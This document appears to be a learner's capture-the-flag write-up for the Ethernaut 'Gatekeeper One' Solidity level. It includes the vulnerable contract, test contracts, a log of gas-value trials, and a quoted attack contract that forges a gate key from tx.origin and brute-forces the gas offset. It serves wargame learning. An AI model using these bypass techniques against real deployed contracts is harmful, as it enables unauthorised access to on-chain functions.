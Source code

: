# 13. Gatekeeper One
Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:

    Remember what you've learned from the Telephone and Token levels.
    You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).

gateOne()
- same as 4. Telephone

gateThree()
- make a test contract in remix 
	- starting from part 3: casting the address to a uint16 will take the last 2 bytes, thus using gateKey = 0x000000000000xxxx (where xxxx is last 2 bytes of tx.origin) satisfies this because casting this as uint64 then uin32 will give xxxx as an int
	- to part 2: left side of the statement is exactly the same as part 3, but it has to be different from a uin64 cast of the key. thus adding a  bit anywhere outside of the last 32 bits satisfies this gate (ie anything between 0x000000010000xxxx - 0x100000000000xxxx)
	- this also passes part 1

test.sol
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.6.0;

contract test {
//uint32(uint64(_gateKey)) == uint16(tx.origin)

    address tx_origin = 0x495f947276749Ce646f68AC8c248420045cb7b5e;
    
    function testcast_1(bytes8 _gateKey) public view returns (bool) {
        return uint32(uint64(_gateKey)) == uint16(uint64(_gateKey));
    }
    
    function testcast_2(bytes8 _gateKey) public view returns (bool) {
        return uint32(uint64(_gateKey)) != uint64(_gateKey);
    }
    
    function testcasts_3(bytes8 _gateKey) public view returns (bool) {
        return uint32(uint64(_gateKey)) == uint16(tx_origin);
    }
    
}
```

gateTwo()
- was close, had to check a guide:
- https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009
used a test contract to find gas
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }
  
  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract test {
    GatekeeperOne one;

    function set (GatekeeperOne gko) public { one = gko; }
    
    function call_enter(bytes8 _gateKey, uint256 gas) public { 
        address(one).call.gas(gas)(abi.encodeWithSignature("enter(bytes8)", _gateKey));
    }
}
```

set(address)
call_enter(0x100000000000ddC4, 999999)

using debugger to "step into" code and get "remaining gas" for each opcode in the `require(gasleft().mod(8191) == 0);` part

then getting the difference using 99999-(remaining_gas % 8191), and checking `entrant` after each call

999756/no
999753/no
999750/no
999747/no
999745/yes
999742
999739
999736
999733
999730
999727

when sending address shows up in entrant, that is the gas to use

none of the solutions worked so had to piece together info from different pages:
https://forum.openzeppelin.com/t/lvl-13-gatekeeper-one-question/6565
https://github.com/0age/ethernaut/blob/master/contracts/attacks/GatekeeperOneAttack.sol

```
pragma solidity ^0.6.0;

contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSelector(
      bytes4(keccak256("enter(bytes8)")),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, bytes memory data) = address(GatekeeperOneContractAddress).call.gas(
          i + 150 + 8191 * 3
        )(
          encodedParams
        );
      if (result) {
        break;
      }
    }
  }
}
```

**end**
Well done! Next, try your hand with the second gatekeeper...
